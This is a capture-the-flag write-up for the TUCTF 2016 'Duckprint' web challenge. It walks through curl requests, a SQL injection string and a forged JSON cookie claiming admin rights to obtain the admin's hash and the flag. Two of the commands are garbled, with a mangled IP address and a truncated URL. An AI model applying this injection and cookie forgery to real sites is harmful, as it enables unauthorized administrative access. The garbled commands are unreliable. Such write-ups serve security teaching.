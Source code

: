 # TUCTF 2016: Duckprint

## Challenge details
| Event | Challenge | Category | Points |
|:------|:----------|:---------|-------:|
| TUCTF | Duckprint | Web | 100 |

### Description
> See if you can steal the admin's duck print and validate it!
>
> When calculating the SHA, leave the periods in
> 
> http://130.211.242.26:31337

## First steps

We're presented with a website called DuckPrint, we see 3 links to: register.php, generate.php and validate.php.

Upon visiting **validate.php** we get a javascript-alert box telling us only the admin can use that page. This page also contains a form so we can probably just POST to generate.php with POST-vars duckprint, Submit=Submit and submitted=1, but we first need to find the duckprint of the admin. If we make a POST-request to this script:

```bash
$curl --url 'http://130.211.242.26:31337/validate.php' --data 'Submit=Submit&submitted=1&duckprint=ayylmao'
```

It tells us the name of the admin.

```html
That is not DuckDuckGoose's Duck Print!
```

**generate.php** has a single input-box in which we can enter a username. This script seems to be vulnerable to SQL-injection. 
Also, on this page we see the supposed 'duck print format' : 
```html
Duck Print format: sha256(b64(username) + "." + b64(cookie) + "." + b64(token))
```
And, as seen in the source, the query looks like this:
```html
<!-- $query = "SELECT * FROM users WHERE username ='" . $username . "'"; -->
```

with **register.php** we can register a username:

```bash
$ curl --url 'http://130.211.242.26:31337/register.php' --data 'submitted=1&Submit=Submit&username=aayyylmao00' -i
Set-Cookie: duck_cookie=%7B%22username%22%3A%22aayyylmao00%22%2C%22admin%22%3A0%7D
```

We see a cookie being set, which is simply an url-encoded JSON-object with our username and an attribute called 'admin'

```json
{"username":"aayyylmao00","admin":0}
```

## Generating the admins duck print

Now, on the generate.php page, if we look for our user:
```bash
$ curl --url http://1342.26:31337/generate.php --data 'submitted=1&Submit=Submit&username=aayyylmao00' --cookie "duck_cookie=%7B%22username%22%3A%22aayyylmao00%22%2C%22admin%22%3A0%7D"
```

We see that our token is generated for us, supposedly using the cookie, our username and our 'token'

```html
<p>Username:Admin:Token</p>aayyylmao00:0:6hsz4QEk</br><hr><p>Generated Duck Print for aayyylmao00: 79ba545e739d283ae1307cdc6992b4c37c9cd98c442ed5f243248cf7862f86c1</p>
```
Since the SQL-query that fetches the users to generate the token for is SQL-injectable, we should be able to craft an SQLI like so:

```bash
-420_1337_420' or username='DuckDuckGoose
```

This will return DuckDuckGoose's row instead of ours and the script will subsequently generate the hash for us, without us knowing that the exact format is. Obviously, we also need to alter the cookie to contain username:DuckDuckGoose and admin:1

```bash 
$ curl --url http://130.211.242.26:31337/generat37_420' or username='DuckDuckGoose' limit 0,1#" --cookie "duck_cookie=%7B%22username%22%3A%22DuckDuckGoose%22%2C%22admin%22%3A1%7D"
```
This gives us 
```html
<p>Username:Admin:Token</p>DuckDuckGoose:1:d4rkw1ng</br><hr><p>Generated Duck Print for -420_1337_420' or username='DuckDuckGoose' limit 0,1#: d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d</p>
```

So now we have a duckprint 'd626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d' that should be valid for DuckDuckGoose, lets validate:

```bash
$ curl --url 'http://130.211.242.26:31337/validate.php' --data 'Submit=Submit&submitted=1&duckprint=d626290acdc6a948a5f2b5c2850730f4e4b2bdbd36da01226a192985d20d787d' --cookie "duck_cookie=%7B%22username%22%3A%22DuckDuckGoose%22%2C%22admin%22%3A1%7D"
```

Giving us the flag
```bash
TUCTF{Quacky_McQuackerface}
```



